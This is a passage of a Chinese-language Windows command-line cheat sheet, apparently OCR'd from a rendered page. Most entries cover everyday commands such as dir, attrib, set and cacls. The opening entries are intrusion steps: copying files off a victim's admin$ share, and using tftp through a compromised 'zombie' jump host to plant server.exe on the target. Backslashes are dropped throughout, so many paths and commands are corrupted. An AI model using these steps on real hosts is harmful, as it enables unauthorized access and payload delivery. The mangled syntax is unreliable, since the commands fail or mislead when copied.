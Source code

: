 - `copy ipadmin$svv.exe c: `或:`copyipadmin$*.*` 复制对方`admini$`共享下的`srv.exe`文件（所有文件）至本地`C：`
- `xcopy` 要复制的文件或目录树目标地址目录名 复制文件和目录树，用参数`/Y`将不提示覆盖相同文件
用参数`/e`才可连目录下的子目录一起复制到目标地址下。
- `tftp -i 自己IP`(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：`-i`指以二进制模式传送，如传送exe文件时用，如不加`-i` 则以`ASCII`模式（传送文本文件模式）进行传送
　　`tftp -i 对方IP`　put c:server.exe 登陆后，上传本地c:server.exe至主机
- `ftp ip 端口` 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
- `route print `显示出IP路由，将主要显示网络地址`Network addres`，子网掩码`Netmask`，网关地址`Gateway addres`，接口地址Interface
- `arp` 查看和处理`ARP`缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。`arp -a`将显示出全部信息
- `start` 程序名或命令` /max` 或`/min` 新开一个新窗口并最大化（最小化）运行某程序或命令
- `mem` 查看cpu使用情况
- `attrib 文件名(目录名)` 查看某文件（目录）的属性
- `attrib 文件名 -A -R -S -H 或 +A +R +S +H` 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
- `dir` 查看文件，参数：`/Q`显示文件及目录属系统哪个用户，`/T:C`显示文件创建时间，`/T:A`显示文件上次被访问时间，`/T:W`上次被修改时间
- `date /t 、 time /t` 使用此参数即`DATE/T`、`TIME/T`将只显示当前日期和时间，而不必输入新日期和时间

### 环境变量设置
- `set` 指定环境变量名称=要指派给变量的字符 设置环境变量
- `set` 显示当前所有的环境变量
- `set p`(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量
- `pause` 暂停批处理程序，并显示出：请按任意键继续....
- `if` 在批处理程序中执行条件处理（更多说明见if命令及变量）
- `goto` 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
- `call` 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）
- `for` 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
- `echo on` 或`off` 打开或关闭`echo`，仅用`echo`不加参数则显示当前echo设置
- `echo` 信息 在屏幕上显示出信息
- `echo 信息 >> pass.txt` 将"信息"保存到pass.txt文件中
- `findstr "Hello" aa.txt `在aa.txt文件中寻找字符串hello
- `find 文件名 `查找某文件
- `title 标题名字 `更改CMD窗口标题名字
- `color 颜色值` 设置cmd控制台前景和背景颜色；0=黑、1=蓝、2=绿、3=浅绿、4=红、5=紫、6=黄、7=白、8=灰、9=淡蓝、A=淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白
- `prompt 名称` 更改cmd.exe的显示的命令提示符(把C:、D:统一改为：EntSky )
- `ver `在DOS窗口下显示版本信息
- `winver` 弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名）
- `format 盘符 /FS:类型` 格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS
- `md　目录名` 创建目录
- `replace 源文件`　要替换文件的目录 替换文件
- `ren 原文件名`　新文件名 重命名文件名
- `tree` 以树形结构显示出目录，用参数-f 将列出第个文件夹中文件名称
- `type 文件名` 显示文本文件的内容
- `more 文件名` 逐屏显示输出文件
- `doskey` 要锁定的命令=字符
- `doskey` 要解锁命令= 为DOS提供的锁定命令(编辑命令行，重新调用win2k命令，并创建宏)。如：锁定`dir`命令：`doskey dir=entsky `(不能用doskey dir=dir)；解锁：`doskey dir=`
- `taskmgr` 调出任务管理器
- `chkdsk /F D`: 检查磁盘D并显示状态报告；加参数/f并修复磁盘上的错误
- `tlntadmn telnt服务admn,`键入tlntadmn选择3，再选择8,就可以更改telnet服务默认端口23为其它任何端口
- `exit` 退出cmd.exe程序或目前，用参数/B则是退出当前批处理脚本而不是cmd.exe
- `path` 路径可执行文件的文件名 为可执行文件设置一个路径。
- `cmd` 启动一个win2K命令解释窗口。参数：`/eff`、`/en` 关闭、开启命令扩展；更我详细说明见`cmd /?`
- `regedit /s` 注册表文件名 导入注册表；参数`/S`指安静模式导入，无任何提示；
- `regedit /e` 注册表文件名 导出注册表
- `cacls 文件名`　参数 显示或修改文件访问控制列表（ACL）——针对NTFS格式时。参数：`/D` 用户名:设定拒绝某用户访问；`/P 用户名`:`perm` 替换指定用户的访问权限；`/G 用户名:perm` 赋予指定用户访问权限；`Perm` 可以是: `N` 无，`R` 读取， `W` 写入， `C `更改(写入)，`F` 完全控制；例：`cacls D: est.txt /D pub` 设定`d: est.txt`拒绝pub用户访问。
- `cacls` 文件名 查看文件的访问用户权限列表
- `REM` 文本内容 在批处理文件中添加注解
- `netsh` 查看或更改本地网络配置情况

